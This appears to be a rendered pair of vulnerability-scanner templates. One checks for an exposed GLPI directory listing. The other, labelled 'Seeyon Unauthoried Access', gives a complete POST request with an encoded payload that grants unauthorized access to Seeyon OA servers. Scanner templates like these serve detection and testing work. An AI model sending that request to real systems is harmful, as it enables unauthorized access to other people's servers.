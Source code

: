 
# GLPI Directory Listing

## Description

- In certain cases, system administrators leave directory listing enabled which can sometimes expose sensitive files.
- severity - low
- tags - glpi,misconfig

## Requests

### Step - 1

```
GET {{expose_data}} HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. Index of /glpi/

**Type - status**

- status
  1. 200

**Payloads**- expose_data

---

# Seeyon Unauthoried Access

- severity - high
- tags - misconfig,seeyon,unauth

## Requests

### Step - 1

```
POST /seeyon/thirdpartyController.do HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: deflate

method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04%2BLjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4

```
